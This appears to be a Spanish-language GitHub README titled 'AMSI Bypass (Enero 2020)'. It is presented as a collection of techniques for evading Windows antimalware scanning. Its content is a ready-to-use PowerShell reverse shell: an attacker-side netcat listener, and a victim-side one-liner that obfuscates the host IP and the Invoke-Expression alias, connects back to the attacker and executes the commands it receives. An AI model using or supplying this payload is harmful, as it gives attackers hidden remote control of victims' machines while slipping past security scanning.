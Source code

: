 ![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

```
 _   _   ___  _____  _   __          ___  ______________ _____ 
| | | | / _ \/  __ \| | / /   ___    |  \/  |  _  | ___ \  ___|
| |_| |/ /_\ \ /  \/| |/ /   ( _ )   | .  . | | | | |_/ / |__  
|  _  ||  _  | |    |    \   / _ \/\ | |\/| | | | |    /|  __| 
| | | || | | | \__/\| |\  \ | (_>  < | |  | \ \_/ / |\ \| |___ 
\_| |_/\_| |_/\____/\_| \_/  \___/\/ \_|  |_/\___/\_| \_\____/ 
                                                               

```

# AMSI Bypass (Enero 2020)

> Oscar Atienza | Aka x25s Aka oski02

----------------------------------------------

Este repositorio recopila los AMSI BYPASS de 2020 

----------------------------------------------



## AMSI Bypass Enero 2020 (Powershell Reverse Shell)

Trabajo de: https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/



Atacante:

```
printf “%x,%x,%x,%x\n" 192 168 233 130
nc -lnvp 80
```

Victima:

```
while ($true) {$px = "c0","a8","e9","82";$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.';$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n";$s = [System.Text.ASCIIEncoding];[byte[]]$b = 0..65535|%{0};$x = "n-eiorvsxpk5";Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158]);$y = New-Object System.Net.Sockets.TCPClient($p,80);$z = $y.GetStream();$d = $s::UTF8.GetBytes($w);$z.Write($d, 0, $d.Length);$t = (n-eiorvsxpk5 whoami) + "$ ";while(($l = $z.Read($b, 0, $b.Length)) -ne 0){;$v = (New-Object -TypeName $s).GetString($b,0, $l);$d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t);$z.Write($d, 0, $d.Length);}$y.Close();Start-Sleep -Seconds 5}
```
